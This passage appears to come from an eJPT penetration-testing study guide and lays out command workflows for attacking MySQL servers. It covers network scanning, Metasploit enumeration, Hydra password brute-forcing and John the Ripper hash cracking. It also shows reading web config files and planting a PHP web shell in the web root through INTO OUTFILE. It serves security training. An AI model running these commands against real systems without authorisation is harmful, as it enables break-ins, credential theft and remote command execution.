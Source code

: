 ## 🔗 Integration with Other Tools

### 🔄 Primary Tool Integration Workflows:

#### **Workflow 1: Discovery → Enumeration → Exploitation**
```bash
# Phase 1: Network Discovery (Nmap)
nmap -sS -sV -p 3306 192.168.1.0/24 -oN mysql_discovery.txt

# Phase 2: Service Enumeration (Metasploit)
msfconsole -x "
    use auxiliary/scanner/mysql/mysql_version;
    set RHOSTS file:mysql_targets.txt;
    spool mysql_versions.log;
    run;
    spool off;
    exit"

# Phase 3: Authentication Testing (Hydra + Metasploit)
hydra -L users.txt -P passwords.txt mysql://target:3306
# Follow up with Metasploit for successful credentials

# Phase 4: Hash Cracking (John the Ripper)
john mysql_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=mysql-sha1
```

#### **Workflow 2: MySQL → Web Application Testing**
```bash
# Step 1: Gain MySQL access
use auxiliary/scanner/mysql/mysql_login
set RHOSTS webserver_ip; set USERNAME root; run

# Step 2: Test for web-accessible files
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT LOAD_FILE('/var/www/html/config.php');"
run

# Step 3: Upload web shell (if writable)
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT '<?php system(\$_GET[\"cmd\"]); ?>' INTO OUTFILE '/var/www/html/shell.php';"
run

# Step 4: Test web shell access
curl "http://webserver_ip/shell.php?cmd=id"
```

#### **Workflow 3: MySQL → Privilege Escalation**
```bash
# Step 1: Test file system capabilities
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root; set PASSWORD discovered_pass; run

# Step 2: Check for UDF (User Defined Functions) opportunities
use auxiliary/admin/mysql/mysql_sql
set SQL "SHOW VARIABLES LIKE 'plugin_dir';"
run

# Step 3: Test library upload capabilities
use auxiliary/scanner/mysql/mysql_writable_dirs
set USERNAME root; set PASSWORD discovered_pass; run

# Step 4: Attempt privilege escalation
# (Advanced techniques beyond eJPT scope)
```